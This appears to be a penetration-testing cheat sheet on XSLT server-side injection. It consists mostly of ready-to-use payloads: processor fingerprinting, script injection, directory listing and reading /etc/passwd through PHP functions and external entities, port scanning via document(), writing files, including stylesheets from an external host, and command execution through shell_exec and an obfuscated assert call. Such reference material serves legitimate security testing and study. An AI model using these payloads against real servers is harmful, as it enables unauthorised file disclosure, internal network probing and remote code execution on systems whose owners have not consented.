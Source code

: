 # XSLT Server Side Injection \(Extensible Stylesheet Languaje Transformations\)

It is used to transform XML documents in another kind. Versions: 1, 2 and 3 \(1 is the most used\).  
The transformation can be done in the server or in the browser\).

The most used frameworks are: **Libxslt** \(Gnome\), **Xalan** \(Apache\) and **Saxon** \(Saxonica\).

## Fingerprint

Upload this and take information

```markup
<?xml version="1.0" encoding="ISO-8859-1"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
 Version: <xsl:value-of select="system-property('xsl:version')" /><br />
 Vendor: <xsl:value-of select="system-property('xsl:vendor')" /><br />
 Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" /><br />
 <xsl:if test="system-property('xsl:product-name')">
 Product Name: <xsl:value-of select="system-property('xsl:product-name')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:product-version')">
 Product Version: <xsl:value-of select="system-property('xsl:product-version')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:is-schema-aware')">
 Is Schema Aware ?: <xsl:value-of select="system-property('xsl:is-schema-aware')" /><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-serialization')">
 Supports Serialization: <xsl:value-of select="system-property('xsl:supportsserialization')"
/><br />
 </xsl:if>
 <xsl:if test="system-property('xsl:supports-backwards-compatibility')">
 Supports Backwards Compatibility: <xsl:value-of select="system-property('xsl:supportsbackwards-compatibility')"
/><br />
 </xsl:if>
</xsl:template>
</xsl:stylesheet>
```

## Javascript Injection

```markup
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<script>confirm("We're good");</script>
</xsl:template>
</xsl:stylesheet>
```

## Directory listing \(PHP\)

### **Opendir + readdir**

```markup
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','/path/to/dir')"/>
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
</xsl:template></xsl:stylesheet>
```

### **Assert \(var\_dump + scandir + false\)**

```markup
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
    <body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
        <xsl:copy-of name="asd" select="php:function('assert','var_dump(scandir(chr(46).chr(47)))==3')" />
        <br />
    </body>
</html>
```

## Read files

### **Internal**

```markup
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "/etc/passwd">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
&ext_file;
</xsl:template>
</xsl:stylesheet>
```

### **Through HTTP**

```markup
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:template match="/">
<xsl:value-of select="document('/etc/passwd')"/>
</xsl:template>
</xsl:stylesheet>
```

```markup
<!DOCTYPE xsl:stylesheet [
<!ENTITY passwd SYSTEM "file:///etc/passwd" >]>
<xsl:template match="/">
&passwd;
</xsl:template>
```

### **Internal \(PHP\)**

```markup
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','/path/to/file')"/>
</xsl:template>
</xsl:stylesheet>
```

```markup
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
    <body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
        <xsl:copy-of name="asd" select="php:function('assert','var_dump(file_get_contents(scandir(chr(46).chr(47))[2].chr(47).chr(46).chr(112).chr(97).chr(115).chr(115).chr(119).chr(100)))==3')" />
        <br />
    </body>
</html>
```

### Port scan

```markup
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="document('http://example.com:22')"/>
</xsl:template>
</xsl:stylesheet>
```

## Write to a file

### XSLT 2.0

```markup
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:result-document href="local_file.txt">
<xsl:text>Write Local File</xsl:text>
</xsl:result-document>
</xsl:template>
</xsl:stylesheet>
```

### **Xalan-J extension**

```markup
<xsl:template match="/">
<redirect:open file="local_file.txt"/>
<redirect:write file="local_file.txt"/> Write Local File</redirect:write>
<redirect:close file="loxal_file.txt"/>
</xsl:template>
```

Other ways to write files in the PDF

## Include external XSL

```markup
<xsl:include href="http://extenal.web/external.xsl"/>
```

```markup
<?xml version="1.0" ?>
<?xml-stylesheet type="text/xsl" href="http://external.web/ext.xsl"?>
```

## Execute code

### **php:function**

```markup
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('shell_exec','sleep 10')" />
</xsl:template>
</xsl:stylesheet>
```

```markup
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
<xsl:copy-of name="asd" select="php:function('assert','var_dump(scandir(chr(46).chr(47)));')" />
<br />
</body>
</html>
```

Execute code using other frameworks in the PDF

### **References**

[XSLT\_SSRF](https://feelsec.info/wp-content/uploads/2018/11/XSLT_SSRF.pdf)  
[http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Abusing%20XSLT%20for%20practical%20attacks%20-%20Arnaboldi%20-%20IO%20Active.pdf](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Abusing%20XSLT%20for%20practical%20attacks%20-%20Arnaboldi%20-%20IO%20Active.pdf)  
[http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Abusing%20XSLT%20for%20practical%20attacks%20-%20Arnaboldi%20-%20Blackhat%202015.pdf](http://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Abusing%20XSLT%20for%20practical%20attacks%20-%20Arnaboldi%20-%20Blackhat%202015.pdf)

